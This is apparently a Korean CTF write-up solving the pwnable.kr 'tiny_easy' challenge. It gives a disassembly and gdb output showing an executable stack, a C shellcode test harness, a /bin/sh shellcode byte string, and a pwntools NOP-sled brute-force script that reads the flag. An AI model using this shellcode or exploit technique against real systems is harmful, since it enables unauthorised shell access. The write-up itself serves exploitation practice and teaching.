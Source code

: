 ```yaml
---
sort: 6
---
```


# tiny easy

```tip
그림이 작아서 잘 안보이면 그림을 새창에서 여세요.
```

scp를 이용하여 tiny_easy 바이너리파일을 내려받아 binary ninja에 넣어보았다.

```
_start:
08048054  pop     eax {__return_addr}
08048055  pop     edx {arg1}
08048056  mov     edx, dword [edx]
08048058  call    edx
0804805a  ??
```

위 처럼 나왔다.<br>
gdb에 넣고 0x08048054에 breakpoint넣고 분석해보니, argv[0]의 첫 4byte를 가져와서 해당부분을 주소로써 호출한다.<br><br>

```
(gdb) info proc
process 179554
warning: target file /proc/179554/cmdline contained unexpected null characters
cmdline = '/home/tiny_easy/tiny_easy'
cwd = '/home/tiny_easy'
exe = '/home/tiny_easy/tiny_easy'

(gdb) shell cat /proc/179554/maps
08048000-08049000 r-xp 00000000 103:00 23593600                          /home/tiny_easy/tiny_easy
f7797000-f779a000 r--p 00000000 00:00 0                                  [vvar]
f779a000-f779b000 r-xp 00000000 00:00 0                                  [vdso]
ffd26000-ffd47000 rwxp 00000000 00:00 0                                  [stack]
```

memory부분을 살펴보니 stack에 쓰기권한과 실행권한이 동시에 존재하는 것을 확인할 수 있다.<br>
따라서 shellcode를 stack에 넣고 동작시키기로 했다.<br>
shellcode가 정상적으로 동작하는지 확인하기 위해 아래와 같은 test 프로그램을 만들었다.<br>

```c
// test.c

#include <sys/mman.h>
#include <stdio.h>
#include <string.h>

#define BASE ((void*)0x5555e000)


int main(int argc, char** argv)
{
        void (*fp)(void);
        void* base = NULL;
        int len = strlen(argv[1]);
        if ((base = mmap(BASE, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0)) != BASE){
                printf("mmap error\n");
                return 1;
        }

        strcpy(base, argv[1]);
        fp = base;
        fp();

        return 0;
}
```

tiny_easy가 32bit 프로그램이기 때문에 test 프로그램도 `-m32` 옵션을 이용해 32bit로 빌드하고 확인하는 모습이다.<br>

```bash
tiny_easy@pwnable:/tmp/dlfjs$ gcc -o test test.c -m32
tiny_easy@pwnable:/tmp/dlfjs$ ./test `python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80')"`
$
```

shellcode가 정상적으로 동작하는 모습이다. 그런데 stack aslr이 걸려있기 때문에 nop sled를 사용한 뒤 될 때까지 실행했다.<br>

```python
from pwn import *

shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'

nop_sled = '\x90'*0x10000
target_addr = p32(0xffd46d0c)

ARGV = []
ARGV.append(target_addr)
ARGV.append(nop_sled + shellcode)

def func():
    p = process(executable='/home/tiny_easy/tiny_easy', argv=ARGV)
    p.sendline('cat /home/tiny_easy/flag')
    try:
        print(p.recvline())
    except EOFError:
        return True
    p.interactive()
    return False

while True:
    if func():
        continue
    break
```

```tip
## 알게 된 점

nop sled
```
